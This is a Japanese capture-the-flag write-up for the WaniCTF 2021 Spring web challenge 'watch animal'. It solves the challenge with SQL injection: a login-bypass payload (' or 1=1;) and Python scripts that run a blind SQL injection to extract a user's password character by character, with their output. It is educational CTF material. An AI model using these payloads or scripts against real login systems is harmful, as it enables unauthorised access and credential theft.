

# 6.watch animal

```txt
スーパーかわいい動物が見れるWebサービスを作ったよ。
wanictf21spring@gmail.com
のメアドの人のパスワードがフラグです。
https://watch.web.wanictf.org/

Writer : okmt
```

## Solution

問題にアクセスすると、ログインフォームが表示されます。



問題文にメールアドレスとそのパスワードが flag であると記載されているので、この情報から `Blind SQL injection` などが問題テーマだろうと推測します。

試しに、パスワードを `' or 1=1;`として入力するとログインできたので SQLi があることは、わかります。

次に Blind SQLi かどうかを判断するために、以下のようなペイロードでログインをしてみるとログインでき、パスワードを推測できそうとわかります。

```sql
' or (select length(password) from users where email = 'wanictf21spring@gmail.com') > 1;
```

なので、まずはパスワードの長さを特定してみます。

`solve1.py`
```python
#!/usr/bin/python3
import requests

url = 'https://watch.web.wanictf.org/'
email = "wanictf21spring@gmail.com"
response = "Crocodiles or true crocodiles are large semiaquatic reptiles that live throughout the tropics in Africa, Asia, the Americas and Australia."

for i in range(1, 100):
    payload = {
        "email": email,
        "password": f"' OR (SELECT LENGTH(password) FROM users WHERE email = '{email}') = {i};"
    }
    r = requests.post(url, data=payload)
    if response in r.text:
        print(f"length of the password is {i}")
        break
```

```shell
$ python3 solve1.py 
length of the password is 15
```

これで対象のパスワードが 15文字 とわかりました。

次にパスワードの文字を特定してみます。

`solve2.py`
```python
#!/usr/bin/python3

import requests

url = 'https://watch.web.wanictf.org/'
email = "wanictf21spring@gmail.com"
response = "Crocodiles or true crocodiles are large semiaquatic reptiles that live throughout the tropics in Africa, Asia, the Americas and Australia."
flag = "FLAG{"

for i in range(6, 16):
    for j in range(0x20, 0x7F):
        payload = {
            "email": email,
            "password": f"' OR SUBSTR((SELECT password FROM users WHERE email = '{email}'),{i},1) = '{chr(j)}';"
        }
        r = requests.post(url, data=payload)
        if response in r.text:
            flag += chr(j)
            print(flag)
print("flag is: " + flag)
```

```shell
$ python3 solve2.py 
FLAG{b
FLAG{bl
FLAG{bl1
FLAG{bl1n
FLAG{bl1nd
FLAG{bl1ndS
FLAG{bl1ndSQ
FLAG{bl1ndSQL
FLAG{bl1ndSQLi
FLAG{bl1ndSQLi}
flag is: FLAG{bl1ndSQLi}
```

<br>

まとめ`solve.py`
```python
#!/usr/bin/python3

import requests

URL = 'https://watch.web.wanictf.org/'
EMAIL = "wanictf21spring@gmail.com"
RESPONSE = "Crocodiles or true crocodiles are large semiaquatic reptiles that live throughout the tropics in Africa, Asia, the Americas and Australia."

def Lcheck(p):
    print("----- result -----")
    payload = {
        "email": EMAIL,
        "password": p
    }
    print("- Email address: " + EMAIL)
    print("- Password: " + p)
    r = requests.post(URL, data=payload)
    if RESPONSE in r.text:
        print(" -> Login successful")
    else:
        print(" -> Login failure")

def PWlen():
    for i in range(1, 100):
        payload = {
            "email": EMAIL,
            "password": f"' OR (SELECT LENGTH(password) FROM users WHERE email = '{EMAIL}') = {i};"
        }
        r = requests.post(URL, data=payload)
        if RESPONSE in r.text:
            print(f"- length of the password is {i}")
            return i

def PWsearch():
    flag = "FLAG{"
    s = PWlen()
    for i in range(6, s+1):
        for j in range(0x20, 0x7F):
            payload = {
                "email": EMAIL,
                "password": f"' OR SUBSTR((SELECT password FROM users WHERE email = '{EMAIL}'),{i},1) = '{chr(j)}';"
            }
            r = requests.post(URL, data=payload)
            if RESPONSE in r.text:
                flag += chr(j)
                #print(flag)
    print("- flag is: " + flag)
    Lcheck(flag)

if __name__ == "__main__":
    PWsearch()
```

```shell
$ python3 solve.py 
- length of the password is 15
FLAG{b
FLAG{bl
FLAG{bl1
FLAG{bl1n
FLAG{bl1nd
FLAG{bl1ndS
FLAG{bl1ndSQ
FLAG{bl1ndSQL
FLAG{bl1ndSQLi
FLAG{bl1ndSQLi}
- flag is: FLAG{bl1ndSQLi}
----- result -----
- Email address: wanictf21spring@gmail.com
- Password: FLAG{bl1ndSQLi}
 -> Login successful
```

## Flag

```txt
FLAG{bl1ndSQLi}
```
